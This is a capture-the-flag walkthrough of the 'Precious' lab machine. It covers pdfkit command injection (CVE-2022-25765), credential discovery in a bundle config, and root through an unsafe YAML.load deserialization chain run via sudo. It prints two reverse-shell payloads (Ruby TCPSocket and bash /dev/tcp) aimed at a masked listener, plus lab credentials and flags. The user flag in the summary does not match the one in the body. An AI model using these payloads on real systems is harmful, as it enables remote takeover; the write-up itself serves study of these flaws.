


---

- **Author:** sonyahack1
- **Date:** 27.04.2025

## Summary

- Foothold: CVE:2022–25765 pdfkit v0.8.6
- User Flag: '8911a90e6f3b9e3b4eeb53f479620804'
- Root Flag: '646ec66350043a223998a8804125a30d'
- Credentials:
  - user: henry
  - password: Q3c1AqGHtoI0aXAYFH

---

> add IP in /etc/hosts

```bash

echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts

```
---

## Recon

> nmap TCP-scan

```bash

sudo nmap -sVC -p- -v -T5 precious.htb -oN PreciousNmap

```
> Result:

```bash

22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

```

> scanning showed 22 (ssh) and 80 (web) ports. The server runs on nginx v1.18.0

> On the main page there is an application with the function of converting url/HTML to PDF format.




> Intercept the main page request in **'BurpSuite'** and see the presence of the Rails framework (Ruby on Rails) on which the site works.
> This is indicated by the response headers, such as **"X-Runtime"**, **"X-Powered-By: Phusion Passenger(R) 6.0.15"**, **"Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15"**


> **Note:** The presence of the Rails framework is also indicated by the tool **'whatweb'**

```bash

whatweb http://precious.htb

```

```bash

http://precious.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF],
UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN],X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]

```

---

## Entry point

> The Ruby-on-Rails framework is designed to build a web application: it accepts HTTP requests, generates HTML pages, works with a database etc.
> But it cannot perform the function of converting url/HTML to PDF format. For these tasks, the **pdfkit** library is integrated into Rails. The pdfkit
> library itself does not perform url/HTML conversion, but it serves as a kind of "wrapper" in Rails and its task is to transmit commands. The conversion
> process itself is performed by a utility **"wkhtmltopdf"** which is installed separately on the server. It works through the **WebKit** engine.

> Simply put, the whole process looks like this: **request -> pdfkit (Rails) -> wkhtmltopdf -> File.pdf -> Rails -> response**


> **Note:** It is worth noting that initially I tried to exploit the RCE vulnerability for the Rails framework itself < 5.0.1 - **CVE-2020-8163**. It did not work.

> There is a vulnerability in the pdfkit v0.8.6 library that allows command injection. The point is that **pdfkit** does not escape the input data (url/HTML)
> before passing the command to the **wkhtmltopdf** utility for conversion.

> To implement this vulnerability, I found exploit on the ExploitDB **CVE:2022-25765** - this will be the entry point.

> The exploit itself is quite large, but I am specifically interested in the payload itself, namely the line - the modified url address:

```bash

payload = f"http://%20`ruby -rsocket -e'spawn(\"sh\",[:in,:out,:err]=>TCPSocket.new(\"{str(listenIP)}\",\"{str(listenPort)}\"))'`"

```
> This is the URL inside which the Ruby library 'socket' is loaded, a TCP connection is created to my IP on the listening port, then stdin, stdout and stderr are connected to the connection
> and the 'sh' shell itself. **PDFkit** does not escape this entire URL in any way and will give it to the **wkhtmltopdf** utility for conversion.

> start listener:

```bash

nc -lvpn 4444

```

> send this url for application:

```bash

http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("*.*.*.*","4444"))'`

```

> I get a reverse shell for the user **ruby** under which the application is running:

```bash

listening on [any] 4444 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.11.189] 52394
script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
ruby@precious:/var/www/pdfapp$ id
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
ruby@precious:/var/www/pdfapp$

```

> Start a search of the system for the presence of configuration files for the Rails framework or pdfkit:


```bash

ruby@precious:/var/www/pdfapp$ find / -name config 2>/dev/null
/var/www/pdfapp/config
/home/henry/.bundle/config
/home/ruby/.bundle/config

```

> found a config file in the Ruby user's home directory:

```bash

ruby@precious:/var/www/pdfapp$ cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

```
```bash

credentials - henry : Q3c1AqGHtoI0aXAYFH

```

> get credentials for henry user in clear text.

> Connect to henry other ssh and get first flag:

```bash

ruby@precious:/var/www/pdfapp$ su henry
Password:
henry@precious:/var/www/pdfapp$ cat ~/user.txt
2d00d65aa280506368935ceec00ede5b
henry@precious:/var/www/pdfapp$

```

```bash

user flag - 2d00d65aa280506368935ceec00ede5b

```
---

## Privilege Escalation

> i'm looking for SUID files:

```bash

henry@precious:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/fusermount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign

```

> nothing.

> display a list of commands that user henry is allowed to execute via sudo with elevated privileges without having to enter a password:

```bash

henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb

```
> the command **"/usr/bin/ruby /opt/update_dependencies.rb"** to update dependencies for an application will become a vector for privilege escalation.

> source code of script **"update_dependencies"**:

```bash

# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

```

> The problem is in the function of loading and reading the yml file:
> the string here:

```bash

YAML.load(File.read("dependencies.yml"))

```
> **file.read** - reads data from a file with dependencies, and **YAML.load** deserializes this data into Ruby objects.
> the deserialization method itself is not safe, since it allows you to restore any Ruby objects, including built-in classes, such as **Gem::Installer**
> and during the initialization process, call methods that some code executes.




> create file 'dependencies.yml' with follow:

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "`bash -c 'bash -i >& /dev/tcp/*.*.*.*/4444 0>&1'`"
         method_id: :resolve

```
> this payload loads a chain of Ruby objects, calling Kernel.system('command') when deserializing the data

> start listener:

```bash

nc -lvnp 4444

```

> start script from 'sudo':

```bash

sudo /usr/bin/ruby /opt/update_dependencies.rb

```

> get root shell and get last flag:

```bash

root@precious:/home/henry# id
id
uid=0(root) gid=0(root) groups=0(root)
root@precious:/home/henry# cd
cd
root@precious:~# cat root.txt
cat root.txt
646ec66350043a223998a8804125a30d

```

```bash

root flag - 646ec66350043a223998a8804125a30d

```
